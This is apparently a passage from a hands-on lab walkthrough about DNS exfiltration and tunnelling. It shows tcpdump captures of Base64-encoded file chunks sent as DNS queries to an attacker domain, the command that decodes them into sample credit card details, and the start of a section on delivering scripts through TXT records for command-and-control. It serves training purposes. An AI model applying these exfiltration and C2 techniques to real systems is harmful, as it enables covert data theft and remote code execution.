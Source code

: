 With some adjustments to the single DNS request, we created and added the dig command to send it over the DNS, and finally, we passed it to the bash to be executed. If we check the Attacker's tcpdump terminal, we should receive the data we sent from victim2.

```
Receiving the Data Using tcpdump

           
			
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104)
    172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235)
    172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69)
    attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41)
22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123)
    172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)

	    
```

Once our DNS request is received, we can stop the tcpdump tool and clean the received data by removing unwanted strings, and finally decode back the data using Base64 as follows,

```
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

 Nice! We have successfully transferred the content of the credit.txt over the DNS protocol manually.

C2 Communications over DNS

C2 frameworks use the DNS protocol for communication, such as sending a command execution request and receiving execution results over the DNS protocol. They also use the TXT DNS record to run a dropper to download extra files on a victim machine. This section simulates how to execute a bash script over the DNS protocol. We will be using the web interface to add a TXT DNS record to the tunnel.com domain name.

For example, let's say we have a script that needs to be executed in a victim machine. First, we need to encode the script as a Base64 representation and then create a TXT DNS record of the domain name you control with the content of the encoded script. The following is an example of the required script that needs to be added to the domain name:
